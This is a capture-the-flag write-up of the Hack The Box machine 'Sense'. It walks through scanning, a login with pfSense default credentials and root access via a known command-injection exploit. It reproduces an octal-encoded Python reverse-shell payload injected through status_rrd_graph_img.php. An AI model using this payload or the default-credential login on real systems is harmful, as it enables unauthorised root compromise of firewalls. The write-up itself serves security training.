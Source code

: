 ```yaml
---
"title": "Hack The Box - Sense"
"date": 2020-07-10
"tags": ["freebsd", "easy", "pfsense"]
"keywords": ["freebsd", "easy", "pfsense"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "We are going to pwn Sense from Hack The Box."
"featured_image": "/img/htb-sense/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-sense/Untitled.png)

We are going to pwn Sense from Hack The Box.                                                             

Link: [https://www.hackthebox.eu/home/machines/profile/111](https://www.hackthebox.eu/home/machines/profile/111)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized|general purpose
Running (JUST GUESSING): Comau embedded (92%), OpenBSD 4.X (86%), FreeBSD 8.X (85%)
OS CPE: cpe:/o:openbsd:openbsd:4.0 cpe:/o:freebsd:freebsd:8.1
Aggressive OS guesses: Comau C4G robot control unit (92%), OpenBSD 4.0 (86%), FreeBSD 8.1 (85%), OpenBSD 4.3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

## HTTPS Enumeration

When I tried to visit Port 80 first it redirects to `https`

![Untitled](/img/htb-sense/Untitled%201.png)

Looks like its a `pfSense` login page.

> What is pfsense? **pfSense is an open source firewall/router computer software distribution based on FreeBSD. It is installed on a physical computer or a virtual machine to make a dedicated firewall/router for a network.**

I searched for default credentials and got this.

![Untitled](/img/htb-sense/Untitled%202.png)

When I tried to login, it says Username or Password incorrect. I decided to run Gobuster

### GoBuster Scan Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/07/10 10:36:09 Starting gobuster
===============================================================
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/edit.php (Status: 200)
/includes (Status: 301)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
```

Ok we got an username finally and it says password is default one, which is `pfsense`

![Untitled](/img/htb-sense/Untitled%203.png)

I tried login with `rohit : pfsense` the default password. And it worked.

![Untitled](/img/htb-sense/Untitled%204.png)

Since we got the version of it, I decided to search for exploits and found this.

> [https://www.exploit-db.com/exploits/43560](https://www.exploit-db.com/exploits/43560)

## Getting Shell

According to exploit its looking for `/status_rrd_graph_img.php` to command injection. And helps us to get python reverse shell.

```python
command = """
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("%s",%s));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
""" % (lhost, lport)

payload = ""

# encode payload in octal
for char in command:
	payload += ("\\" + oct(ord(char)).lstrip("0o"))

login_url = 'https://' + rhost + '/index.php'
exploit_url = "https://" + rhost + "/status_rrd_graph_img.php?database=queues;"+"printf+" + "'" + payload + "'|sh"
```

so I decided to check whether its there or not? And Yes its there. Downloaded the exploit to my machine.

![Untitled](/img/htb-sense/Untitled%205.png)

First I used `--help` parameter to know what going on and set those parameters and I got the shell.

![Untitled](/img/htb-sense/Untitled%206.png)

We don’t have to escalate privileges since pfSense is running as root and the command injection vulnerability leads to root shell.

We own the box.